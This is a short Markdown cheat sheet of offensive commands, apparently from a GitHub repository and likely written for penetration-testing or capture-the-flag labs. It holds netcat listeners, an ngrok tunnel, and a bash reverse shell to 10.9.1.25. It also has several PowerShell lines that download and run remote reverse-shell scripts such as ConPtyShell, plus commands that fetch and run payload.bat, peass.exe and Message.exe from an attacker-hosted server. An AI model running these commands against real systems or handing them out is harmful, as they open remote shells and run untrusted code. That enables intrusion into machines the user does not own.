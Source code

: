# Netcat Cheatsheet

## Open Netcat Server

- nc -lv localhost 8782
- ncat -lvnp 1234

## target windows

- stty raw -echo; (stty size; cat) | ncat -lvnp 1337

## Spawn Ngrok Server

- ngrok tcp 8782

## Payload Client

- <https://www.revshells.com>
- <https://bit.ly/3yNL1hg>
- sh -i >& /dev/tcp/10.9.1.25/1332 0>&1

## Spawn TTY

- python -c 'import pty; pty.spawn("/bin/sh")'
- python -c 'import pty; pty.spawn("/bin/bash")'

## Spawn python server

python3 -m http.server 9000

## powershell cheatsheet

- powershell IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.168.173 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.1.25:9000/payload/revshellwindow.ps1');Invoke-ConPtyShell 10.10.168.173 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.1.25:9000/payload/revshellwindowold.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.9.1.25 -Port 1234

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/payload/payload.bat','payload.bat')"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/linpeas/peass.exe','peass.exe')"

- Start-Process "payload.bat"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/Message.exe','Message.exe')"
